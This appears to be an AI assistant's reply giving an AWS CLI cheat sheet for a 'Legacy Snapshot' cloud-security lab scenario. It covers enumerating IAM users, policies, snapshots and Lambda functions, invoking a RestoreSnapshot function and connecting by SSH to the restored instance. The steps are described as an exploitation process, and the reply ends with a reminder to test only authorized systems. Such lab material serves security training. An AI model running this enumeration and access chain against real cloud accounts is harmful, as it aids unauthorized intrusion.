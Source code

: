 Sure, here's a cheat sheet with the essential AWS CLI commands you'll need to complete the "Legacy Snapshot" scenario:

**Reconnaissance:**
```
# List IAM users
aws iam list-users

# List policies attached to the "ls-user"
aws iam list-attached-user-policies --user-name ls-user

# List available EC2 snapshots
aws ec2 describe-snapshots

# List available Lambda functions
aws lambda list-functions
```

**Identify Lambda Function Permissions:**
```
# Get the policy document for the Lambda invoke policy
aws iam get-policy-version --policy-arn <lambda_invoke_policy_arn> --version-id <version>
```

**Invoke the Lambda Function:**
```
# Invoke the Lambda function and save the output to a file
aws lambda invoke --function-name RestoreSnapshot output.txt

# View the output from the Lambda function (should contain the new instance ID)
cat output.txt
```

**Access the Restored Instance:**
```
# Connect to the restored EC2 instance using the provided key pair
ssh -i <path_to_key_pair> ec2-user@<instance_public_ip>
```

Make sure to replace the placeholders (`<lambda_invoke_policy_arn>`, `<version>`, `<path_to_key_pair>`, and `<instance_public_ip>`) with the actual values from your environment.

Additionally, you may need to perform further reconnaissance or gather information based on the scenario's flow and your findings during the exploitation process.

Remember, this cheat sheet is tailored for the "Legacy Snapshot" scenario, and the commands assume you have the necessary permissions and resources set up correctly. Always follow ethical guidelines and only perform security testing on systems you have explicit permission to test.
